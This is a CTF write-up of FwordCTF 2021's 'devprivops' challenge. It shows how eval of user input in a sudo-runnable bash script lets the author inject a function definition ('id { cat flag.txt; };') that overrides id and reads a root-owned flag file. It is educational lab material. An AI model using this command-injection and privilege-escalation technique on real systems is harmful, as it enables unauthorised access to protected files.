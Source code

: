## Intro
**devprivops** was a bash challenge at FwordCTF 2021.  

You were given access to a linux machine through SSH as _user1_. In the home directory of the user two files of interest can be found - a [shell script](devops.sh) and a `flag.txt`. Both files belong to root and only another user on the system called _user-privileged_ was granted read access to the flag.

```
user1@da8cb1333b60:/home/user1$ ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 ./
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ../
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh*
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt*
```

Let's escalate!

## Investigation
By inspecting the shell script we learn that we can supply two parameters `-d` and `-p`.  

The `-d` parameter sets the `deploy` variable and essentially lets us input the name of a function which gets defined by `eval` and exported afterwards.

```bash
if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"  
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi
```

Unfortunately, it seems we can never run it since it's impossible to get past the admin check.

```bash
isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi
```

Or can we?

The evaluation of the `-p` parameter block follows directly after and prints out our current permissions by calling `id`.

```bash
if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

## Solution
A quick `sudo -l` reveals we have the ability to execute [devops.sh](devops.sh) as the _user-privileged_.

```
user1@7c47d98c8907:/home/user1$ sudo -l
Matching Defaults entries for user1 on 7c47d98c8907:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 7c47d98c8907:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

So we execute the script as `sudo -u user-privileged ./devops.sh -d -p` and input the payload `id { cat flag.txt; };`, overwriting the `id` function with our malicious one. When the `-p` parameter block gets evaluated afterwards and our `id` is called, the flag gets exposed!

> FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
